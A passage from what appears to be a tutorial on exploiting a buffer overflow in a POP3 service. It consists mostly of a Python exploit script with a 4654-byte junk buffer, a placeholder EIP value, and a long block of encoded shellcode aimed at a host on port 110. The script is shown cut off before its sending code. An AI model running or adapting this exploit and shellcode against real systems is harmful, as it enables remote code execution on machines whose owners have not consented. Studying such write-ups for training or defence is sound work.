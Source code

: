 The register "ESP" which I told you about at the beginning holds the address to our "shellcode".
To proof that I run the newest version of the "exploit" again.

{{< highlight python >}}
#!/usr/bin/python3

# Import of the socket library to connect to the POP3 service
import socket

# Victim IP and Port
host = "192.168.1.14"
port = 110

# POC Buffer
junk = b'A' * 4654
eip = b'B' * 4

buf =  b""
buf += b"\xdb\xd9\xd9\x74\x24\xf4\x5f\x31\xc9\xb1\x52\xbd\xad"
buf += b"\x99\x49\x27\x31\x6f\x17\x83\xc7\x04\x03\xc2\x8a\xab"
buf += b"\xd2\xe0\x45\xa9\x1d\x18\x96\xce\x94\xfd\xa7\xce\xc3"
buf += b"\x76\x97\xfe\x80\xda\x14\x74\xc4\xce\xaf\xf8\xc1\xe1"
buf += b"\x18\xb6\x37\xcc\x99\xeb\x04\x4f\x1a\xf6\x58\xaf\x23"
buf += b"\x39\xad\xae\x64\x24\x5c\xe2\x3d\x22\xf3\x12\x49\x7e"
buf += b"\xc8\x99\x01\x6e\x48\x7e\xd1\x91\x79\xd1\x69\xc8\x59"
buf += b"\xd0\xbe\x60\xd0\xca\xa3\x4d\xaa\x61\x17\x39\x2d\xa3"
buf += b"\x69\xc2\x82\x8a\x45\x31\xda\xcb\x62\xaa\xa9\x25\x91"
buf += b"\x57\xaa\xf2\xeb\x83\x3f\xe0\x4c\x47\xe7\xcc\x6d\x84"
buf += b"\x7e\x87\x62\x61\xf4\xcf\x66\x74\xd9\x64\x92\xfd\xdc"
buf += b"\xaa\x12\x45\xfb\x6e\x7e\x1d\x62\x37\xda\xf0\x9b\x27"
buf += b"\x85\xad\x39\x2c\x28\xb9\x33\x6f\x25\x0e\x7e\x8f\xb5"
buf += b"\x18\x09\xfc\x87\x87\xa1\x6a\xa4\x40\x6c\x6d\xcb\x7a"
buf += b"\xc8\xe1\x32\x85\x29\x28\xf1\xd1\x79\x42\xd0\x59\x12"
buf += b"\x92\xdd\x8f\xb5\xc2\x71\x60\x76\xb2\x31\xd0\x1e\xd8"
buf += b"\xbd\x0f\x3e\xe3\x17\x38\xd5\x1e\xf0\x87\x82\x21\x12"
buf += b"\x60\xd1\x21\x03\x2c\x5c\xc7\x49\xdc\x08\x50\xe6\x45"
buf += b"\x11\x2a\x97\x8a\x8f\x57\x97\x01\x3c\xa8\x56\xe2\x49"
buf += b"\xba\x0f\x02\x04\xe0\x86\x1d\xb2\x8c\x45\x8f\x59\x4c"
buf += b"\x03\xac\xf5\x1b\x44\x02\x0c\xc9\x78\x3d\xa6\xef\x80"
buf += b"\xdb\x81\xab\x5e\x18\x0f\x32\x12\x24\x2b\x24\xea\xa5"
buf += b"\x77\x10\xa2\xf3\x21\xce\x04\xaa\x83\xb8\xde\x01\x4a"
buf += b"\x2c\xa6\x69\x4d\x2a\xa7\xa7\x3b\xd2\x16\x1e\x7a\xed"
buf += b"\x97\xf6\x8a\x96\xc5\x66\x74\x4d\x4e\x96\x3f\xcf\xe7"
buf += b"\x3f\xe6\x9a\xb5\x5d\x19\x71\xf9\x5b\x9a\x73\x82\x9f"
buf += b"\x82\xf6\x87\xe4\x04\xeb\xf5\x75\xe1\x0b\xa9\x76\x20"

# Build exploit buffer out of the junk data ('A's), eip address ('B's), shellcode
buffer = junk + eip + buf
